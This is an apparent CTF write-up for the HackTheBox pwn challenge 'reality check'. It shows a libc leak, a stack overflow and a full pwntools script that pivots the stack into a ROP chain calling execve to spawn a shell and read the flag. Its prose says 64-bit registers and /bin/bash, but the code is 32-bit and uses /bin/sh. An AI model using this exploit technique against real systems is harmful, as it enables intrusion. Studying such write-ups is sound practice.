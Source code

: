# reality check
In this task our goal is to get control of rip and rsp for providing ROP-chain to make the execve(“/bin/bash”, 0, 0) syscall.

When executing a program, we have two choices that lead us to reality or fake_reality function. Both gives us a gift.

Function reality gives us an address to the printf and then asks us for the choice. If choice is equal to 1, then it calls a fake_reality function.

Function fake_reality has a buffer overflow vulnerability. It reads 70 bytes from stdin to buffer with size 54. Stack has no protection, so we can simply overwrite 16 bytes just after the buffer and control rip.

Our steps are looks like:

1.	Make the second choice in main to get to the reality function.
2.	Calculate libc base address by the pointer to printf.
3.	Make the first choice in reality to get to the fake_reality function.
4.	Knowing the address of the buffer, write a ROP-chain to it and use overflow to set rbp to our buffer and rip to (leave; ret) address. That causes rsp to point on the buffer that already contains ROP-chain. After this step, we must get a shell..
5.	When getting shell, execute “cat flag.txt” to get a flag.
There is the script that doing all this steps:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./reality_check --host docker.hackthebox.eu --port 30565
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./reality_check')

if exe.bits == 32:
    lindbg = "/root/linux_server"
else:
    lindbg = "/root/linux_server64"

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'docker.hackthebox.eu'
port = int(args.PORT or 30565)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe.path] + argv, *a, **kw)
    elif args.QIRA:
        return process(['qira', exe.path] + argv, *a, **kw)
    elif args.IDA:
        return process([lindbg], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

libc = ELF('./libc.so.6')

POP_ECX = 0x001938e8
POP_EBX = 0x00018c85
POP_EDX = 0x00001aae
POP_EAX = 0x00024b27
INT80 = 0x00002d37
BIN_SH = 0x17B88F
LEAVE_RET = 0x804925B

io = start()

io.recvuntil('> ')
io.sendline('2')

io.recvuntil('[')
printf = int(io.recvuntil(']')[:-1], 16)

io.recvuntil('> ')
io.sendline('1')

io.recvuntil('[')
buf = int(io.recvuntil(']')[:-1], 16)

libc.address = printf - 0x50C60

print('printf:', hex(printf))
print('buf:', hex(buf))
print('libc base:', hex(libc.address))

io.recvuntil('> ')

pl = p32(libc.address + POP_EBX) + p32(libc.address + BIN_SH)
pl += p32(libc.address + POP_ECX) + p32(0)
pl += p32(libc.address + POP_EDX) + p32(0)
pl += p32(libc.address + POP_EAX) + p32(11)
pl += p32(libc.address + INT80)
pl += cyclic(22)
pl += p32(buf-4) + p32(LEAVE_RET)

print('payload length:', len(pl))

io.send(pl)
sleep(0.5)

io.sendline('cat flag.txt')

io.interactive()
```

Screenshot of the script execution:

![](2021-03-26-23-26-26.png)